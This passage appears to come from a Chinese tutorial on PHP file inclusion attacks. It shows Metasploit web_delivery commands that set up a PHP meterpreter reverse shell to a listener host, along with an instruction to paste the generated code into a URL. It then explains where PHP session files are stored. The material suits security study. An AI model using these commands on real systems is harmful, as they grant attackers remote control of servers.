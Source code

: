 ```
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 1
msf exploit (web_delivery)> set payload php/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.109
msf exploit (web_delivery)>set srvport  8888
msf exploit (web_delivery)>exploit
```

将上面复制的恶意代码粘贴到URL中，具体如图所示，并将其作为命令执行。

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190107143919-f5de6f78-1246-1.png)

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190107143934-ff1f3e0a-1246-1.png)











#### **2.SESSION**

##### **原理分析**

使用了session来保存用户会话，php手册中是这样描述的：

> 1.PHP 会将会话中的数据设置到 `$_SESSION`变量中。
> 2.**当 PHP 停止的时候**，它会自动读取 $_SESSION 中的内容，并将其进行序列化，然后发送给会话保存管理器来进行保存。
> 3.对于文件会话保存管理器，会将会话数据保存到配置项 session.save_path 所指定的位置。

php的session文件的保存路径可以在phpinfo()的session.save_path看到，

**如图所示：**

[![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/session%20%E5%AD%98%E6%94%BE%E4%BD%8D%E7%BD%AE.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/session%20%E5%AD%98%E6%94%BE%E4%BD%8D%E7%BD%AE.png)

> **补充：**
>
> 常见的php-session存放位置：
>
> ```
> /var/lib/php/sess_PHPSESSID
> /var/lib/php/sess_PHPSESSID
> /tmp/sess_PHPSESSID
> /tmp/sessions/sess_PHPSESSID
> ```

我们来亲自做一个小实验吧

首先我们使用 php 中的创建 session 的函数写一段小代码

**示例代码：**

```php
<?php
//启动session的初始化
session_start();
//注册session变量，赋值为一个用户的名称
$_SESSION["username"]="K0rz3n";

?>
```
